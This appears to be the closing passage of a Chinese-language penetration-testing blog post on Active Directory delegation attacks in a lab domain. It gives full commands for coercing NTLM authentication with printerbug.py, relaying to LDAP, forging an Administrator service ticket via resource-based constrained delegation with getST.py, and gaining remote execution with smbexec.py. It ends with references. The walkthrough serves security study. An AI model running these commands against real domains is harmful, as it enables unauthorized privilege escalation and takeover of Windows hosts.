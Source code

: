 ![](/assets/posts/2022-03-12-domain-delegation-attack/image-20220331191056561.png)

（3）然后通过 Python 版本的 [Printerbug](https://github.com/dirkjanm/krbrelayx) 迫使 WIN2016-WEB1 主机向 Kali Linux 发起 NTLM 认证请求，相关命令如下。

```bash
python3 printerbug.py pentest.com/Marcus:Marcus\@123@172.26.10.13 172.26.10.134
```

![](/assets/posts/2022-03-12-domain-delegation-attack/rSHPsu8IinDGMNc.png)

此时，ntlmrelayx.py 将截获 WIN2016-WEB1 机器账户的 Net-NTLM Hash，并将其 Relay 到域控的 LDAP 服务，如图下所示。

![](/assets/posts/2022-03-12-domain-delegation-attack/r8G7sHd61cSCQWT.png)

（4）接着，通过 Impacket 套件中的 getST.py 执行基于资源的约束性委派攻击，并获取用于访问 WIN2016-WEB1 机器上 CIFS 服务的高权限票证，如图下所示。

```bash
python3 getST.py pentest.com/PENTEST\$:Passw0rd -spn CIFS/WIN2016-WEB1.pentest.com -impersonate Administrator -dc-ip 172.26.10.11

# -spn 指定创建的票证要认证到的服务 SPN  
# -impersonate 指定要通过 S4U 代表的用户  
# -dc-ip 指定域控制器的 IP 地址  
```

![](/assets/posts/2022-03-12-domain-delegation-attack/OULbGYMhfg1eiVy.png)

（5）最后，通过设置环境变量 `KRB5CCNAME` 来使用该票证，并通过 smbexec.py 获取 WIN2016-WEB1 机器的最高权限，相关命令如下，执行结果如下图所示。在执行以下命令之前，需要将 Kali Linux 的 /etc/resolv.conf 中 DNS 服务器改为域控制器的 IP 地址。

```bash
export KRB5CCNAME=Administrator.ccache
python3 smbexec.py -target-ip 172.26.10.13 -k WIN2016-WEB1.pentest.com -no-pass   

# -k 指定通过 Kerberos 协议执行身份验证，这将在环境变量 KRB5CCNAME 指定的 ccache 文件中获取凭据 
# -no-pass 指定不需要提供密码，与 -k 选项配合使用
```

![](/assets/posts/2022-03-12-domain-delegation-attack/5X3UGQMcLBgNsHY.png)
## Ending......

参考文献：

> https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/1fb9caca-449f-4183-8f7a-1a5fc7e7290a
>
> https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/02636893-7a1f-4357-af9a-b672e3e3de13
>
> https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/bde93b0e-f3c9-4ddf-9f44-e1453be7af5a
>
> https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html
>
> https://pentestlab.blog/2022/03/21/unconstrained-delegation/

